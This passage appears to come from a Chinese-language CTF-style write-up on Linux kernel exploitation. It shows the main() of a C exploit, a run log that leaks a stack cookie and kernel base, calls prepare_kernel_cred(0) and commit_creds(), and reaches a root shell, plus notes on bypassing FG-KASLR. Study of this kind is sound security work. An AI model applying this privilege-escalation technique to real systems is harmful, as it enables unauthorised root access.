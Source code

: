 ```c
}

int main() {

    save_state();

    open_dev();

    leak();

    stage_1();
    
    puts("[!] Should never be reached");

    return 0;
}
```



Result：

```bash
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 320 bytes
[*] Cookie: 8b26b4c19a2f5100
[*] imagebase: ffffffff8c400000
[*] Prepared payload to leak commit_creds()
[*] =====> commit_creds: ffffffff8c942840
[*] Prepared payload to leak prepare_kernel_cred()
[*] =====> prepare_kernel_cred: ffffffff8ceb66a0
[*] Prepared payload to call prepare_kernel_cred(0)
[*] =====> Got cred_struct: ffff9c3e476e1f00
[*] Prepared payload to call commit_creds()
[*] Returned to userland
[*] UID: 0, got root!
/ # 
```



关键点：

+ 了解FG-Kaslr保护不受影响的代码区
+ 泄露**_text**基地址
+ 计算提权函数和需要的gadgets

